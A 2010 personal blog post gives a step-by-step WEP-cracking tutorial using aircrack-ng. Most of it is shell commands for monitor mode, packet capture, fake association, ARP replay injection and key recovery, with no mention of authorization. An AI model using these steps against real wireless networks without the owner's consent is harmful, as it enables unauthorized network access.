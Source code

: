 Title: Aircrack Quick Tutorial (Wireless WEP Cracking)
Date: 2010-11-03
Author: Seppe "Macuyiko" vanden Broucke

Speaking of [wireless](|filename|2010_11_ubuntu-1010-fixed-channel-mon0-1.md)...

The following is just a quick note-to-self, because I always forget the exact commands and end up crawling around the [Aircrack wiki](http://www.aircrack-ng.org/doku.php) for a bit. I though I'd posted this before, but I can't seem to find it.

### TTY1

    sudo airmon-ng start eth1
    # Assume monitor started on mon0...

    sudo airodump-ng mon0
    # Scout interesting APs

    sudo airodump-ng --channel X --bssid XX:XX:XX:XX:XX:XX -w output mon0
    # Make sure to replace "X". This terminal is now dumping data

### TTY2

    sudo aireplay-ng -1 0 -a XX:XX:XX:XX:XX:XX mon0
    # ... Association successful :-)

Now start the attack. I like opening a new terminal for this.
Don't bother with the ARP request replay attack. The best method to use is the `-p 0841` one, especially when using a crappy wifi chip like me (3945ABG). Last time I checked, the advanced attack methods (KoreK chopchop, fragmentation, caffe-latte and Hirte) didn't work.

### TTY3

    sudo aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b XX:XX:XX:XX:XX:XX mon0
    # Wait until a packet is captured. It's best to use a small one (Size: 68).

    # Reinject and the data-counter in TTY1 (airodump) should go up.

### TTY4

    sudo aircrack-ng -b XX:XX:XX:XX:XX:XX output*.cap

### TTY5 (optional)

    sudo aircrack-ng -K -b XX:XX:XX:XX:XX:XX output*.cap
